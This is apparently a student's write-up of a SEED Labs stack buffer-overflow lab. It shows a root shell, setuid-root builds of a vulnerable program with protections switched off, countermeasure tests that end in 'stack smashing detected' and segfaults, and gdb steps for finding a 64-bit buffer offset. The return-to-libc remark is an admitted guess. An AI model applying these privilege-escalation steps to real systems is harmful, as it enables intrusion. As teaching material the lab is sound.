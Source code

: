 ```
root
# id
uid=0(root) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
# exit
```
We will then run the program with stackGuard turned on:
```
[03/02/21]seed@VM:~/.../code$ gcc -DBUF_SIZE=100 -z execstack -m32 -o stack-L1 stack.c
[03/02/21]seed@VM:~/.../code$ sudo chown root stack-L1
[03/02/21]seed@VM:~/.../code$ sudo chmod 4755 stack-L1
[03/02/21]seed@VM:~/.../code$ rm badfile
[03/02/21]seed@VM:~/.../code$ exploit.py
[03/02/21]seed@VM:~/.../code$ ./stack-L1
Input size: 517
*** stack smashing detected ***: terminated
Aborted
```
This time, we experienced a stack smashing detected and our program is aborted. Since the stackGuard is like a check between the buffer and return address, when the value changed, the program will stop. Thus, protecting the program from buffer overflow.

#### Task 6.2:
In this task, we will turn on the non-executable stack protection by taking off the -z execstack option for both 32-bit and 64-bit versions:
```
[03/02/21]seed@VM:~/.../shellcode$ gcc -m32 -o a32.out call_shellcode.c
[03/02/21]seed@VM:~/.../shellcode$ sudo chown root a32.out a64.out
[03/02/21]seed@VM:~/.../shellcode$ sudo chmod 4755 a32.out a64.out
[03/02/21]seed@VM:~/.../shellcode$ ./a32.out
Segmentation fault
```
```
[03/02/21]seed@VM:~/.../shellcode$ gcc -o a64.out call_shellcode.c
[03/02/21]seed@VM:~/.../shellcode$ sudo chown root a32.out a64.out
[03/02/21]seed@VM:~/.../shellcode$ sudo chmod 4755 a32.out a64.out
[03/02/21]seed@VM:~/.../shellcode$ ./a64.out
Segmentation fault
```
As we can see, both of the files experience a segmentation fault as a result of non-executable stack protection. Making the stack non-executable will prevent jumping to the shellcode that we wanted to insert. However, if we run a return-to-libc-attack, it sounds like we would accomplish this by returning to the system() libc function. Where it will execute system("/bin/sh"). I do not know if this will work at all, I simply read the instruction to the return-to-libc attack lab provided in the writeup and made a guess at the solution.

### Task 8:
In this task, we are trying to attack a vulnerable 64-bit program. First, we use the gdb to determine the rbp, buffer, and offset.
```
[03/02/21]seed@VM:~/.../code$ touch badfile
[03/02/21]seed@VM:~/.../code$ gdb stack-L4-dbg
...
gdb-peda$ b bof
...
gdb-peda$ run
...
gdb-peda$ next
...
gdb-peda$ p $rbp
$1 = (void *) 0x7fffffffd950
gdb-peda$ p &buffer
$2 = (char (*)[10]) 0x7fffffffd946
gdb-peda$ p/d 0x7fffffffd950 - 0x7fffffffd946
```